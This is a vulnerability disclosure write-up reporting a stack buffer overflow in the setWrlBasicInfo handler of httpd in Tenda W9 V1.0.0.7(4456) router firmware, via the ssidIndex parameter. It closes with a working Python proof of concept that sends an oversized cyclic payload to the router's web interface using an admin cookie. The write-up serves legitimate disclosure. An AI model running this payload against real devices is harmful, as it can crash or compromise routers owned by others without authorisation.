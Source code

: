 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `setWrlBasicInfo` function(at 0x458674) of `httpd`. The value of the `ssidIndex` parameter will be concatenated ​​to local variable `s`, which will cause stack buffer overflow. **Regardless of the values of other parameters, the sprintf function will be executed. Because all branches lack premature exit statements and each branch contains the sprintf function with a stack overflow vulnerability.**

Address of `setWrlBasicInfo` function:

![define](./define.png)

Vulnerable Code:

![buffer_define](./buffer_define.png)
![code](./code.png)
## POC
```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/setWrlBasicInfo"

payload = { 
    'ssidIndex': cyclic(5000)
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.
